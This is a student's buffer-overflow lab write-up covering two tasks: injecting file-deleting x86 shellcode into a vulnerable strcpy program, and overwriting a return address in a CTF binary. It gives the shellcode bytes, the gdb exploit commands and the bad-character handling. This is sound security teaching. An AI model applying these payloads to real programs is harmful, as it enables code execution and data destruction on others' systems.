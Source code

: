 *Name: Dinh Thi Thanh Vy*
*ID: 22110093*

# Lab 2: 
---
## Task 1: Inject code to delete file
**Source code: .asm file**

![alt text](./image/image-11.png)

**Run virtual environment by docker file**

![alt text](./image/image-12.png)

**Run file asm and get the shellcode**

Run: `nasm -g -f elf file_del.asm`; `ld -m elf_i386 -o file_del file_del.o`

Get shellcode: `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

![alt text](./image/image-13.png)

- We have the shellcode for file_del file as follows:

`\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

--> We remove \xdummyfile because it is not meaningful hexadecimal code

**Stack Frame:**

![alt text](./image/image-14.png)

- Shell code: `36 bytes`
- Return address: `4 bytes`
--> placement code: `32 bytes`

Here, we will use the vuln.c program to trigger a buffer overflow

**Connect to gdb**

![alt text](./image/image-15.png)

- Break in this position to see the change
`b *0x0804846b`

- Run the program by using command:

>r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-16.png)

--> We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the `strcpy` function terminates the string, causing the interruption.  

Observing the ASCII table, we need to avoid the following characters: 
- `0x00` because it marks the end of a string. 
- `0x09` because it's the tab character and would split the argument. 
- `0x0a` because it's the newline character and would also terminate the string.

Additionally, `0x0a` has a decimal value of 10, and upon reviewing the assembly code, we find:
![alt text](./image/image-17.png)

- Change file asm to this:
![alt text](./image/image-20.png)

- Get the shellcode again, we get
`\xeb\x14\x31\xc0\xb0\x08\x04\x02\xbb\x7b\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe7\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`

![alt text](./image/image-19.png)

- For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to  prevent string termination and to identify the position of the return frame.

>r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x**0f**'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-22.png)

At this point, the program will likely report an error because it cannot find the address `0xffffffff`. 

- We need to set `0x0c` to `0x00` at the address `0xffffd66b` by using command: 
`set {unsigned char} 0xffffd66b = 0x00`

- we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff. 

`set *0xffffd69c = 0xffffd658`

**The result will be:**

![alt text](./image/image-23.png)

**Continue runing the program to test out**

![alt text](./image/image-24.png)

- Dummyfile is still here. Look back at the assembly code!

`objdump -d file_del`

![alt text](./image/image-25.png)

As we can see, the dummyfile is **start from** `0xffffd672` **not from** `0x080407a` in C program!
- We need to set 0xffffd651 to point at that using command: 
`set *0xffffd661 = 0xffffd672`

![alt text](./image/image-26.png)

- continue running the program 

![alt text](./image/image-27.png)

-->Dummyfile is deleted. We've done.


## Task 2: Conduct attack on ctf.c

**Source code:**

![alt text](./image/image-30.png)

**Summarizing**

-->we need to find the address of the myfunc function and overwrite the Return Address of the vulnerable function's stack frame with this address:

`p=0x04081211; q=0x44644262`

`(buf[100] + ebp(4) + ReturnA(rewrite by the myfunc's address) + s + p + q)`

= `104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)`

**Run the virtual environment by docker file**

![alt text](./image/image-32.png)

**Debug ctf.c and create ctf.out file:**

`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2`

![alt text](./image/image-32.png)

**Get the address of the myfunc function by this command:**
`objdump -d ctf.out|grep myfunc`

![alt text](./image/image-33.png)

--> So we obtain the address of the myfunc funtion: `0804851b`

**Connect gdb and run by this command:**

`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`

![alt text](./image/image-34.png)

--> It's not understand and stop running with the debug `0x61616161 in ??`

--> We need to set the exit function address in the Return Address of myfunc to return and continue running to get the value of variables p and q

**Get the exit's address**
`objdump -d ctf.out|grep exit`

![alt text](./image/image-35.png)

--> So we obtain the address of the exit: `080483e0`

**Connect gdb and run again by this command:**
`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`

![alt text](./image/image-36.png)

--> We've done this lab

**Stack frame:**

![alt text](./image/image-29.png)